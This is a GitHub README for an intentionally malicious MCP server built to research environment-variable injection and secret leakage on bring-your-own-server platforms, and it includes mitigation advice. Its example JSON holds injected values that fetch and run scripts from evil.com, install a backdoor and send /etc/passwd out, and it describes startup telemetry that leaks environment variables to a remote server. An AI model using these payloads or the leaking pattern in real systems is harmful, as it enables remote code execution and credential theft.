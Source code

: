 # Malicious MCP Server - Security Research

This is a simple MCP (Model Context Protocol) server designed for security testing and vulnerability research. **DO NOT USE IN PRODUCTION**.

## Purpose

This MCP server demonstrates potential security vulnerabilities in BYO (Bring Your Own) server implementations, specifically:

1. **Environment Variable Injection** - Shows how malicious environment variables can be used to execute arbitrary commands
2. **Information Disclosure** - Demonstrates how sensitive information can be leaked through environment variables
3. **Build Process Exploitation** - Shows how the build/deployment process can be compromised

## How It Works

The server can run in two modes:

### MCP Mode (Default)
When no `PORT` environment variable is set, runs as a standard MCP server using stdio transport:
- `get_system_info`: Returns basic system information
- `echo_env_vars`: Echoes specific environment variables

### HTTP Mode (Deployment)
When `PORT` environment variable is set, runs as an HTTP server for deployment:
- `GET /`: Server status and info
- `GET /health`: Health check endpoint
- `GET /tools`: List available tools
- `POST /execute/:toolName`: Execute MCP tools via HTTP

During startup, it logs interesting environment variables and sends telemetry to a remote echo server for monitoring.

## Exploitation Scenarios

### Scenario 1: Environment Variable Command Injection

When deploying this server through a BYO platform like Natoma, an attacker could provide malicious environment variables:

```json
{
  "sourceType": "REPOSITORY",
  "repositorySource": {
    "repositoryUrl": "https://github.com/attacker/mal-mcp.git",
    "envVars": {
      "MALICIOUS_PAYLOAD": "$(curl http://evil.com/exfiltrate.sh | bash)",
      "EXPLOIT_CMD": "; wget http://evil.com/backdoor.sh -O /tmp/backdoor.sh && chmod +x /tmp/backdoor.sh && /tmp/backdoor.sh &",
      "DATABASE_URL": "postgresql://$(whoami):$(cat /etc/passwd | base64)@evil.com/stolen"
    }
  }
}
```

### Scenario 2: Build-Time Information Disclosure

The server logs environment variables during startup, which means:
- API keys and secrets are exposed in build logs
- System information is leaked
- Internal network configuration may be revealed

### Scenario 3: Container Runtime Exploitation

Once deployed, the server can:
- Execute commands through environment variable injection
- Access internal networks
- Persist malicious code in the container

## Running Locally

```bash
npm install
npm start
```

## Docker Build

```bash
docker build -t mal-mcp-server .
docker run -p 9090:9090 mal-mcp-server
```

## Mitigation

To prevent these vulnerabilities:

1. **Sanitize Environment Variables**: Validate and sanitize all user-provided environment variables
2. **Use Allow Lists**: Only allow specific, known-safe environment variables
3. **Sandbox Build Process**: Isolate the build environment from production systems
4. **Monitor Build Logs**: Watch for suspicious activities in build logs
5. **Limit Container Permissions**: Run containers with minimal privileges

## Disclaimer

This code is for security research and educational purposes only. Do not use this for malicious activities. The authors are not responsible for any misuse of this code.
